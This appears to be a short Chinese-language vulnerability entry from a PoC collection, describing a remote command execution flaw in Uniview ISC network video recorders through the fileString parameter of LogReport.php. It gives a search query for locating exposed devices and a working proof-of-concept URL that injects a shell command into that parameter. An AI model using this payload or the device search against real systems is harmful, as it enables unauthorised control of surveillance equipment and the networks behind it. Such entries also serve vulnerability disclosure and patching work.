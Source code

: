 # 浙江宇视科技 网络视频录像机 ISC LogReport.php 远程命令执行漏洞

## 漏洞描述

浙江宇视科技 网络视频录像机 ISC /Interface/LogReport/LogReport.php 页面，fileString 参数过滤不严格，导致攻击者可执行任意命令

## 漏洞影响

```
浙江宇视科技 网络视频录像机 ISC
```

## 网络测绘

```
app="uniview-ISC"
```

## 漏洞复现

登录页面

![image-20220519183432893](images/202205191834953.png)

验证POC

```
/Interface/LogReport/LogReport.php?action=execUpdate&fileString=x;id>1.txt
```

![image-20220519183528302](images/202205191835400.png)